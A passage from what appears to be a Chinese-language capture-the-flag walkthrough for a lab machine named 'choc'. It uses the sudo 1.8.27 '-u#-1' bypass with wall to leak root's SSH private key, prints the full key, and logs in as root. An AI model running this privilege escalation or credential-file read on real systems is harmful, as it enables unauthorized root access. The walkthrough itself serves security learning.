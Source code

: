 可以定位到 [sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502)

尝试借此进行利用

:::warning

这里利用 wall 程序读取文件，原理是将文件的数据读取出来作为信息，发送给所有登录的用户，这里包括 SSH 和 tty 登陆的用户，不包含反弹 shell 登录的用户，所以建议在前面的用户中找到 id_rsa 文件，并借此建立 SSH 会话

:::

```shell
sarah@choc:/home/torki/.ssh$ sudo -u#-1 /usr/bin/wall --nobanner /root/.ssh/id_rsa
```

在另外一个终端中，收到 wall 群发的消息

```plaintext
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAuSMhRxXhWoexxyZWPK4pkjyVHhT1jAmUYdEhKEFBLZh9z93ZW25M
lrj03xjFd4zP5AAHEG9p5h5SNi3ltHTtml7Nj59XlV6Heru/cwX7Yykxu75tZRxzQR4EjV
qUmxvqJgfql+XzKg3JgNwHRpG3tcW8Rdxbb3owVR97kjZP+3kA/pQGrQKdFe893Q1u2oDa
4R+v+jsYmzwjf/1M8m/S+J0hYzTOI+kQlBnZmMvpJYDidmyG1RO3dcLCpxCQpydH7GfO/s
6j0DdCvDr6+8C4eAzgDE5irjdMh2dKySNveNiMuhzsv1PS33ZWgx/ITlxu9zwiuufQm6D5
TcDYKMGCSQAAA8DHBCmTxwQpkwAAAAdzc2gtcnNhAAABAQC5IyFHFeFah7HHJlY8rimSPJ
UeFPWMCZRh0SEoQUEtmH3P3dlbbkyWuPTfGMV3jM/kAAcQb2nmHlI2LeW0dO2aXs2Pn1eV
Xod6u79zBftjKTG7vm1lHHNBHgSNWpSbG+omB+qX5fMqDcmA3AdGkbe1xbxF3FtvejBVH3
uSNk/7eQD+lAatAp0V7z3dDW7agNrhH6/6OxibPCN//Uzyb9L4nSFjNM4j6RCUGdmYy+kl
gOJ2bIbVE7d1wsKnEJCnJ0fsZ87+zqPQN0K8Ovr7wLh4DOAMTmKuN0yHZ0rJI2942Iy6HO
y/U9LfdlaDH8hOXG73PCK659CboPlNwNgowYJJAAAAAwEAAQAAAQAQK31QlBymp4tjdXm6
uwtudlQf2HzJylxnXriip3Bl5xe1/A5r6epOj8Dza1pz4pyVsVrsmI6LRsKvcLrLVBscjI
MvtB8WMLdshNFn3nHia0qoty0e06lNWq3TGsI3+ewtfiuDMNZYKfQbiRwpkbiV67tR7rkd
t3JZPPKyBoRd1kGjnPzJc2DPyaAtJtS21w86ZxJZtaMWUL6SE1+80VWv0XXPtlmAipfdgF
76A/Z4izCNolx0s+Ptus8gqaxJDeGI4xX5aZZ33kc5cSvNjI2hH6kFX39sS7beVz/zYDKA
BkJ0fZpNQ+HZfqGvT93YHAFZVpdlv7ysn16oNkOwZuZxAAAAgQCs/OtmKQ2SXR0ZrVryDk
58HSK2xCRcMaOqNamWSm+JaKEusms25bCD3liQGbazJyy6eS7iR2DOQPYwdU94dak72X+W
xwOexz8pwHGflvrA7SlKW4pXshuccpxgdC/KkqZRQyQvy7NbDTyGM+3uTQSnABmZWl8mJa
NtfY+fCEoKDgAAAIEA5urQzWNxzvBa4krknAuUMRD8TcsL4NjE6QCj9D1KJh2vGiBqNYjH
f6hZ+4LPFlaWiusjxZAF6vIaZJU0UHRzdcITqm1L20CZQr2D3tgWS6+VAGQHb1me5uoC4J
6Px6A7preSEjS2GtECqWxZevl8YqWEJtWaO1WDK61+Mr266UsAAACBAM0/S7QUbRqSmNTq
wd/4y9U4JxtOfeV4O0I+JNlTPkA2vdUeHEwWkKRqk3re72JwYlUAsD4AhXO1oEdfpO32fx
wavKtBNMpI64CiNVrPY8w9DPoWdCzxtFeRq1V50i9wdiVlHIdn0Ac+6T9Wv/0v8J7GXIkH
gskjOtELMuhigHo7AAAACXJvb3RAY2hvYwE=
-----END OPENSSH PRIVATE KEY-----
```

## User - root

```shell
┌─[randark@parrot]─[~/tmp]
└──╼ $ ssh -i root_id_rsa root@192.168.56.122


##############################
#                            #
#       Welcome to my SSH !  #
#       Carl.                #
#                            #
##############################


Linux choc 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
```